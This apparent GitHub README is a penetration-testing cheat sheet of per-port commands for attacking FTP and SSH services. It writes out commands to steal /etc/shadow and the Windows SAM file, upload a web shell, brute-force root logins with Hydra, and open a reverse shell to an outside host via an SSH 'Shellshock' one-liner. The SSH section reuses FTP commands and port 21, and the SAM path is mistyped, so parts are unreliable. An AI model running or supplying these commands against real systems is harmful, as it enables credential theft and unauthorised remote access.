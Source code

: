 > Adding constantly content, depending on time :)
> Instead of writing a list of tasks to perform on each port/service, as [0daysecurity's](http://www.0daysecurity.com/penetration-testing/enumeration.html), I will write the full command with arguments to enumerate and (possibly) exploit it. 
>``$ip`` refers to simply the variable assigned with ``export ip=10.10.10.10`` 
> Remember to **switch** between wordlists if one just doesn't give out results



General
------------
  ##### Enumeration
  * Banner: 
    * `nc -vn $ip [PORT]`
  ##### Exploitation
  * ` searchsploit [SERVICE NAME]+[VERSION]`
  
## Common ports
-------------
-------------
### 21 (FTP)
  ##### Enumeration
  * Anonymous login
    * ``nmap --script ftp-anon -p21 $ip``
  ##### Exploitation
  * Connect and try to download/upload files (even if you can't ``cd`` into that directory): 
    * ``get /etc/shadow `` 
    * ``get C:\\Windows\\system3\\config\\SAM`` 
    * ``put shell.aspx``
  * Brute-force: 
    * `` hydra -l root -P /usr/share/wordlists/rockyou.txt $ip ftp -t 1``

### 22 (SSH)
  ##### Enumeration
  * Banner: 
    * `nc -vn $ip 21`
  * Anonymous login
    * ``nmap --script ftp-anon -p21 $ip``
  ##### Exploitation
  * Reuse private key from other machines
  * Shellshock:
    * ``ssh root@$ip 'nc 1.1.1.1 80 -e /bin/bash'``
  * Brute-force: 
    * `` hydra -l root -P /usr/share/wordlists/rockyou.txt $ip ssh``
